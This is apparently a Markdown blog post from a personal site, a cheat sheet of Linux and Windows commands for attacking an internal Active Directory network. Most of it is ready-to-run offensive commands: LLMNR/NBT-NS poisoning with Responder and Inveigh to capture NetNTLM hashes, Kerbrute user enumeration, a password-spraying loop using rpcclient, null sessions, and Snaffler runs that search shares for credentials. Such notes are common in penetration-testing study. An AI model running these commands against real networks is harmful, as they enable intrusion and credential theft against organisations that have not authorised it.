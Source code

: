 ```yaml
---
layout: post
title: Commands & Hacks - Enumeration Tricks
toc: true
subtitle: Linux
comments: false
---
```


<b>Enumeration Tricks:</b> <br>

TCPdump:
```
tcpdump -i <interface>
```

Responder for DNS requests to identify unique hosts

Responder for LLMNR over UDP 5535 OR NBT-NS over UDP 137 to obtain NetNTLM Hash
```
responder -I <interface> -A
```

Fping Active Checking a Subnet:
```
fping -asgq 172.11.5.0/23
```
Enumerate hosts:
```
netdiscover -r <subnet> | awk '{print $1}'
```

Enumerate AD Users with Kerbrute:
```
kerbrute userenum -d <domain_name> --dc <dc_ip> jsmith.txt -o valid_ad_user_accounts
```
Using Inveigh for LLMNR/NBT-NS request poisoning
```
Import-Module .\inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
With valid domain credentials, Using CrackMapExec to obtain the password policy
```
crackmapexec smb 172.10.5.5 -u <user> -p <password> --pass-pol
```
Establishing a null session from windows
```
net use \\DC01\ipc$ "" /u:""
```
View windows account errors:
```
net use \\DC01\ip$ "" /u:guest
```
Internal Password Spraying through Linux:
```
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" <dc> | grep Authority; done
```

Microsoft LAPS Enumeration:
```
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
Get-LAPSComputers
```
If SMB Null sessions, use rpcclient to enumerate AD:
```
rpcclient -U "" -N <dc>
```

RPCClient Enumeration:
```
enumdomusers
queryuser 0x444
```
Find Domain Admins with windapsearch:
```
python3 windapsearch.py --dc-ip <dc_ip> -u user@domain.local -p <password> --da
```
Find credentials/sensitive data in AD with Snaffler.exe:
```
Snaffler.exe -s -d <domain>.local -o snaffler.log -v data
```

